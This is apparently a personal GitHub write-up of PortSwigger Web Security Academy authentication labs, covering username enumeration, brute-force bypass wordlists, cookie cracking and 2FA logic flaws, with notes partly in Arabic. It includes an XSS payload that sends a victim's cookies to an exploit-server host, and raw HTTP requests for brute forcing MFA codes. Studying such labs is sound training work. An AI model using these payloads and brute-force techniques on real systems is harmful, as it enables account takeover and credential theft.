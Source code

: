 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>





<details>
  <summary>Lab: Username enumeration via subtly different responses</summary>

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```



  
</details>







<details>
  <summary>Lab: Username enumeration via response timing</summary>

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

  
</details>






<details>
  <summary>Lab: Broken brute-force protection, IP block</summary>


```
افتح Burp Suite واعمل Proxy للـ login page.

جرب تدخل بيانات غلط 3 مرات وراء بعض:

لاحظ إن بعد 3 محاولات فاشلة بيظهر block للـ IP (مثلاً رسالة error أو delay).

جرب بعد محاولتين فاشلتين تعمل login ناجح بحسابك (wiener:peter):

هتلاحظ إن العداد بيرجع للصفر وتقدر تكمل المحاولات بدون block.
```

### ``usernames``

```
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
```

### ``passwords``

```
peter
123456
peter
password
peter
12345678
peter
qwerty
peter
123456789
peter
12345
peter
1234
peter
111111
peter
1234567
peter
dragon
peter
123123
peter
baseball
peter
abc123
peter
football
peter
monkey
peter
letmein
peter
shadow
peter
master
peter
666666
peter
qwertyuiop
peter
123321
peter
mustang
peter
1234567890
peter
michael
peter
654321
peter
superman
peter
1qaz2wsx
peter
7777777
peter
121212
peter
000000
peter
qazwsx
peter
123qwe
peter
killer
peter
trustno1
peter
jordan
peter
jennifer
peter
zxcvbnm
peter
asdfgh
peter
hunter
peter
buster
peter
soccer
peter
harley
peter
batman
peter
andrew
peter
tigger
peter
sunshine
peter
iloveyou
peter
2000
peter
charlie
peter
robert
peter
thomas
peter
hockey
peter
ranger
peter
daniel
peter
starwars
peter
klaster
peter
112233
peter
george
peter
computer
peter
michelle
peter
jessica
peter
pepper
peter
1111
peter
zxcvbn
peter
555555
peter
11111111
peter
131313
peter
freedom
peter
777777
peter
pass
peter
maggie
peter
159753
peter
aaaaaa
peter
ginger
peter
princess
peter
joshua
peter
cheese
peter
amanda
peter
summer
peter
love
peter
ashley
peter
nicole
peter
chelsea
peter
biteme
peter
matthew
peter
access
peter
yankees
peter
987654321
peter
dallas
peter
austin
peter
thunder
peter
taylor
peter
matrix
peter
mobilemail
peter
mom
peter
monitor
peter
monitoring
peter
montana
peter
moon
peter
moscow

```



<img width="1676" height="794" alt="image" src="https://github.com/user-attachments/assets/9922e3be-dddc-49af-a0f1-7e6fb80bf588" />


```
carlos : daniel
```

<img width="1313" height="602" alt="image" src="https://github.com/user-attachments/assets/6ef4ebcb-564a-410c-ab9a-39c3a6ce3213" />





  
</details>








<details>
   <summary>Lab: Brute-forcing a stay-logged-in cookie</summary>


### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > <img width="1167" height="424" alt="image" src="https://github.com/user-attachments/assets/098dcadc-95fb-436c-ae1d-fde1290cc3a4" />
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > <img width="1878" height="742" alt="image" src="https://github.com/user-attachments/assets/9f556feb-f647-4080-af43-767f6e5d969c" />
  > 
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 


   
  
</details>



















<details>
  <summary>Lab: Offline password cracking</summary>


### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``

  
</details>
















<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener:peter``
2. signout
3. login with ``carlos``
4. click forget passowrd

  
</details>

































<details>
  <summary>Lab: Username enumeration via account lock</summary>

<img width="1480" height="804" alt="image" src="https://github.com/user-attachments/assets/558b88cf-ae67-439c-9ca5-caac98a2280e" />

```
carlos
carlos
carlos
carlos
carlos
root
root
root
root
root
admin
admin
admin
admin
admin
....
....

```

> ### THE REAL USERNAME WILL APPEAR ERROR: **`You have made too many incorrect login attempts. Please try again in 1 minute(s).`**


> ### SO USERNAME IS **`acceso`**





<img width="1543" height="738" alt="image" src="https://github.com/user-attachments/assets/2c27e85f-9d3b-4c07-b3b6-18f92347f884" />

> ### SO PASSWORD IS **`letmein`**

```
acceso : letmein
```

<img width="1779" height="845" alt="image" src="https://github.com/user-attachments/assets/e7e2dd78-6f7b-41bd-a779-ade23d51a0a8" />


  
</details>








<details>
  <summary>Lab: 2FA broken logic</summary>

<img width="1102" height="173" alt="image" src="https://github.com/user-attachments/assets/d701902a-1edd-4370-9cb7-e6df9b3dee61" />

---

1. login to your account **`wiener : peter`**
2. <img width="1296" height="613" alt="image" src="https://github.com/user-attachments/assets/df3add31-4a20-4768-a8b0-29c926dd4e32" />

```http
GET /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> ### change **`wiener`** to `carlos` and send the request

```http
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=carlos
```

<img width="1539" height="753" alt="image" src="https://github.com/user-attachments/assets/cacb8b0c-b2b9-448e-829a-35fd0fb62a3f" />



> ### now the website send the **`2fa`** to carlos

> #### logout form your account and login to it again but don't write your **`2FA`** code and send the request to intruder

<img width="782" height="279" alt="image" src="https://github.com/user-attachments/assets/2b05d78d-45c0-4d15-b16c-e186a99a8e89" />

```http
POST /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=U0GvMCS0BxfbwbJ8iMImN16k1qfpKw5w; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0af700e5033811f784723b2500240055.web-security-academy.net
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


mfa-code=123456
```

> ### change **`wiener`** to `carlos`
>
> add **`123456`** as payload and set `payload type` brute forcer 

<img width="1876" height="758" alt="image" src="https://github.com/user-attachments/assets/79203d2a-2f9d-41b1-8885-39823c515aa0" />

> ### see **``302``**

<img width="1703" height="815" alt="image" src="https://github.com/user-attachments/assets/a0105171-2c54-48e6-bce6-e145c8bd40b1" />

> click **`view response in browser`**  

<img width="1178" height="552" alt="image" src="https://github.com/user-attachments/assets/b3e1371f-3053-42ca-a6ce-f7cc89da9ccb" />

<img width="1417" height="822" alt="image" src="https://github.com/user-attachments/assets/884e0d3c-2b5f-4a11-9a57-718c7f7892ba" />

<img width="1565" height="749" alt="image" src="https://github.com/user-attachments/assets/7294253e-6ed6-4bc1-9061-224ac2d471b4" />

  
</details>





















----- 
















































